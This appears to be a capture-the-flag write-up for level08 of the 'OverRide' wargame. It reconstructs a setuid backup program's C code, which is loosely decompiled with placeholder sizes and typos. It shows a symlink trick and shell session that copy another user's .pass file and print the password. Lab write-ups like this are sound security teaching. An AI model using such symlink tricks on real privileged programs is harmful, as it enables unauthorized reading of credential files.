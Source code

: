 ## level08 (file permission bypass using softlink)
```clike=

void log_wrapper(FILE *logfile, char *string, char *inpfile_path)
{
    int count = 40;
    char dest[?];
    
    strcpy(dest, string);
    snprintf(dest + strlen(dest), 254 - strlen(dest) - 1, inpfile_path);
    dest[strcspn(dest, "/n")] = 0;
    fprintf(logfile, "LOG: %s", dest);
}

int main(int argc, char **argv)
{
    int argc_stck = argc;
    char **argv_stack = argv;
    int count = 48;
    char currchar = EOF;
    FILE *logfile;    
    char *prefix = "./backups";
    char dest[?];
    int backupfile;
    
    if (argc != 2)
        printf("Usage: %s filename", argv[0]);
    logfile = fopen("/backups/.log", "w");
    if (!logfile)
    {
        printf("ERROR: Failed to open %s", "/backups/.log");
        exit(1);
    }
    log_wrapper(logfile, "Starting back up:", argv_stack[1]);
    inputfilestream = fopen(argv_stack[1], "r");
    if (!inputfilestream)
    {
        printf("ERROR: Failed to open %s", argv_stack[1]);
        exit(1)
    }
    strcpy(dest, prefix);
    strncat(dest, argv_stack[1], 99 - strlen(dest) - 1);
    backupfile = open(prefix, O_CREAT | O_EXCL | O_WRONLY, S_IRUSR | S_IWUSR | S_IRGRP | S_IWGRP);
    if (backupfile < 1)
    {
        printf("ERROR: Failed to open %s%s\n", "./backups/", argv_stack[1]);
        exit(1);
    }
     while((currchar = fgetc(inputfilestream)) != EOF)
        write(backupfile, &currchar, 1);
    log_wrapper(logfile, "Finished back up", argv_stack[1]);
    fclose(inputfilestream);
    close(backupfile);
    return 0;
}
```

The program has a **stack canary implemented**, so the approach to overwrite the EIP might not be the way. The program takes a file as an input, reads it character by character, creates a new file in `./backups` and writes it to their own backup files accordingly.

The exploit is quite straightforward, I will need to go to a **writable directory**, **create a soft link** to `/home/users/level09/.pass` and pass that link as as argument to the binary. The program will create a backup file and write its contents in `backups/<linkname>`. The password is `fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S`

```
level08@OverRide:/tmp/level08$ ln -s /home/users/level09/.pass link1
level08@OverRide:/tmp/level08$ /home/users/level08/level08 link1
ERROR: Failed to open ./backups/link1
level08@OverRide:/tmp/level08$ rm backups/link1
level08@OverRide:/tmp/level08$ /home/users/level08/level08 link1
level08@OverRide:/tmp/level08$ cat backups/link1
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
level08@OverRide:/tmp/level08$
```

